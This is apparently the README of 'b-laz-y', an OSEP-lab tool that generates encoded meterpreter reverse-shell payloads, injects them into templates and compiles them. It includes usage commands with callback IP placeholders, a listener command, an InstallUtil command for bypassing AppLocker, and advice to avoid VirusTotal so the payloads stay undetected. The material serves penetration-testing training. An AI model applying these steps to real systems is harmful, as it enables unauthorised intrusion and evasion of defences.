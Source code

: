 # b-laz-y

Modified version of  [laz-y](https://github.com/Nariod/laz-y) .

Automating payload generation for OSEP labs and exam. This tool generates x86 and x64 staged meterpreter shellcodes, injects them in your CS templates, and generate C# binaries from Linux using mcs. It supports ROT encoding, and XOR encoding.

## But, why?
The VPN connection dropped during one of the OSEP challenge labs, and my local IP changed. I needed to recompile all the payloads and tools.. I did not, I wrote a script :) 

## How does it work?
This repo provides a process hollowing template as an example, the point of this tool is to use your own templates.  
When started, the python script will search for marks in all files you put in the "templates" folder and swap the marks for the MSF payload and decoding routines. It then exports the modified template files in the "output" folder, run "mcs" C# compiler on all *.cs files and "gcc" compiler on all *.c files.
You end up with :
* Your initial templates, untouched
* The templates with marks replaced with MSF payloads and decoding routines
* If the templates are .cs, the resulting C# binaries
* If the templates are .c the resulting native binaries
* If the templates are of other types (ps1, aspx, vba, etc.) the resulting modified templates with the replaced content.
* The according metasploit .rc files to start your listeners

## Installation
This script has only been tested on Kali. Execute the following commands on an updated Kali OS to set up the environment:
* `sudo apt update && sudo apt install mono-mcs mono-complete metasploit-framework nuget -y`
* `git clone https://github.com/Nariod/b-laz-y.git`
* `cd b-laz-y`
* `pip3 install -r requirements.txt`

## Usage
* DO NOT UPLOAD ANYTHING TO VIRUSTOTAL, if you must use https://antiscan.me/
* Add your CS templates in the "templates" folder
* Add the mark `!!!_SHELLCODE_MARK!!!` in the templates, where you want the shellcode to be injected
* Add the mark `!!!DECODE_ROUTINE!!!` in the templates, where you want the decoding routine to be injected
* Run the script with `python3 b-laz-y.py -l CALLBACK_IP -p CALLBACK_PORT -e ENCODING_OPTION`
* Retrieve the metasploit ressource file (.rc) in the "output" folder
* Start your listener with `sudo msfconsole -q -r output/handler.rc`
* Retrieve and use the final binaries and template files located in the "output" folder

On target machine, the final binaries can be executed by:
* Directly executing the binaries, in the case Applocker is not enforced
* Using the InstallUtil lolbin by using `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Nariod\Desktop\MY_BINARY.exe` to circumvent Applocker

Generating binaries on Kali:

![Usage](/images/Usage.png)

Executing the binaries on Windows target, using the InstallUtil lolbin:

![Usage](/images/InstallUtil.png)

Enjoying some shell love:

![Usage](/images/GettingShells.png)

## Research and development
For research purposes, I dedicated [a repo](https://github.com/Nariod/Laz-y-templates) for C# templates compatible with lazy and more realist operations. 

## To do
- [x] Mark for shellcode swaping
- [x] ROT encoding support
- [x] XOR encoding support
- [ ] AES encryption support
- [x] Generate msf resource files
- [x] Check user input for safety
- [x] InstallUtil lolbin support
- [x] Option to use donut as shellcode generator
- [x] Re-use generated shellcodes for faster processing
- [x] Added vba, vbaxsl, aspx, hta, ps_loader, dinvoke, pinvoke templates

## Credits
* Stackoverflow 
* https://www.abatchy.com/2017/05/rot-n-shellcode-encoder-linux-x86

Templates
* Process Hollowing : https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs

## Legal disclaimer
Usage of anything presented in this repo to attack targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

